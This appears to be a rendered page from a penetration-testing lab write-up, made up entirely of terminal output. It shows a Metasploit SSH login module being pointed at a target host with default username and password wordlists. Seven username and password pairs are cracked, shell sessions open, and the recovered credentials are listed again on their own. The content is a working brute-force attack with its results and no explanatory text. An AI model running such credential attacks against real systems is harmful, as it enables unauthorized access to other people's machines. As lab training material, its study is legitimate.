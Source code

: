 ```
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.180.250.3
RHOSTS => 192.180.250.3
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 192.180.250.3:22 - Success: 'sysadmin:hailey' ''
[*] Command shell session 1 opened (192.180.250.2:35857 -> 192.180.250.3:22) at 2022-10-20 04:06:05 +0000
[+] 192.180.250.3:22 - Success: 'rooty:pineapple' ''
[*] Command shell session 2 opened (192.180.250.2:38921 -> 192.180.250.3:22) at 2022-10-20 04:07:27 +0000
[+] 192.180.250.3:22 - Success: 'demo:butterfly1' ''
[*] Command shell session 3 opened (192.180.250.2:39435 -> 192.180.250.3:22) at 2022-10-20 04:08:57 +0000
[+] 192.180.250.3:22 - Success: 'auditor:xbox360' ''
[*] Command shell session 4 opened (192.180.250.2:38927 -> 192.180.250.3:22) at 2022-10-20 04:10:43 +0000
[+] 192.180.250.3:22 - Success: 'anon:741852963' ''
[*] Command shell session 5 opened (192.180.250.2:44943 -> 192.180.250.3:22) at 2022-10-20 04:12:41 +0000
[+] 192.180.250.3:22 - Success: 'administrator:password1' ''
[*] Command shell session 6 opened (192.180.250.2:45943 -> 192.180.250.3:22) at 2022-10-20 04:15:10 +0000
[+] 192.180.250.3:22 - Success: 'diag:secret' ''
[*] Command shell session 7 opened (192.180.250.2:41153 -> 192.180.250.3:22) at 2022-10-20 04:17:28 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
sysadmin:hailey
rooty:pineapple
demo:butterfly1
auditor:xbox360
anon:741852963
administrator:password1
diag:secret
```

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information                                     Connection
  --  ----  ----           -----------                                     ----------
  1         shell unknown  SSH sysadmin:hailey (192.180.250.3:22)          192.180.250.2:35857 -> 192.180.250.3:22 (192.180.250.3)
  2         shell unknown  SSH rooty:pineapple (192.180.250.3:22)          192.180.250.2:38921 -> 192.180.250.3:22 (192.180.250.3)
  3         shell unknown  SSH demo:butterfly1 (192.180.250.3:22)          192.180.250.2:39435 -> 192.180.250.3:22 (192.180.250.3)
  4         shell unknown  SSH auditor:xbox360 (192.180.250.3:22)          192.180.250.2:38927 -> 192.180.250.3:22 (192.180.250.3)
```